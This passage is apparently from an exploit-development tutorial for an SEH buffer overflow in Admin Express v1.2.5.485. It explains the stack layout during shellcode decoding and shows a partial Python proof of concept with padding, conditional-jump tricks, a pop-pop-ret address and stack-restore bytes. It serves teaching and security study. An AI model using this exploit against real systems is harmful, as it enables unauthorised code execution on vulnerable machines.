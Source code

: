 Let me reiterate one more time, with a diagram. Imagine we have 4 lines of shellcode. Here is what would happen. Execution of the encoded instructions would happen from the lower addresses and continue to the higher addresses. As each __decoded__ instruction is calculated, it would get pushed onto the stack, and be located at ESP. As each encoded instruction gets executed, the decoded instructions would start piling up from the stack pointer, towards the lower addresses. Here is a diagram (I will give more detail about this diagram later):

```console
LOWER ADDRESSES
4th decoded instruction
3rd decoded instruction
2nd decoded instruction
1st decoded instruction
HIGHER ADDRESSES
```
If we write our shellcode properly, taking into consideration little endian and how the stack writes after a `push` instruction, we can take the fact execution goes from lower to higher addresses, and we will find ourselves executing our actual decoded shellcode.

Before we align the stack, recall what was mentioned above about saving the current stack pointer (after all our jumps). Since we need to save the stack pointer, let's use ECX. To do this, we are going to use a `push esp` instruction to get the current stack pointer value onto the stack. We then are going to use a `pop ecx` instruction to pop whatever is on top of the stack (which is the stack pointer now), into ECX. Then, we will `push ecx`, to get the old stack pointer onto the stack, in order to perform a `mov ecx,esp` later. Here is the updated PoC:

```console
root@kali:~/ADMIN_EXPRESS/POC# cat poc.py 
# Proof of Concept - Admin Express v1.2.5.485 Exploit

# We need to save the current stack pointer before execution of shellcode, due to
# old stack pointer value needed when executing our payload of calc.exe. This puts the current stack pointer 0x0012DC98 into ECX, to be used later
restore = "\x54"                        # push esp; (pushing the current value of ESP, which needs to be restored later, onto the stack)
restore += "\x59"                       # pop ecx; (holding the value of old ESP in ECX, to be called later.)
restore += "\x51"                       # push ecx; (to get the value on the stack for the mov esp command later)

# All togther now.
payload = "\x41" * 4260
payload += "\x70\x7e\x71\x7e"		# JO 126 bytes. If jump fails, default to JNO 126 bytes
payload += "\x42\x4c\x01\x10"		# 0x10014c42 pop pop ret wmiwrap.DLL

# There are 2 NULL (\x00) terminators in our buffer of A's, near our nSEH jump. We are going to jump far away from them
# so we have enough room for our shellcode and to decode.
payload += "\x41" * 122			# add padding since we jumped 7e hex bytes (126 bytes) above
payload += "\x70\x7e\x71\x7e"		# JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x7e\x71\x7e"		# JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x79\x71\x79"		# JO or JNO only 121 bytes
payload += "\x41" * 121			# NOP is in the restricted characters. Using \x41 as a slide into alignment
payload += restore
payload += "\x43" * (5000-len(payload))


print payload

#f = open('pwn.txt', 'w')
#f.write(payload)
#f.close()
```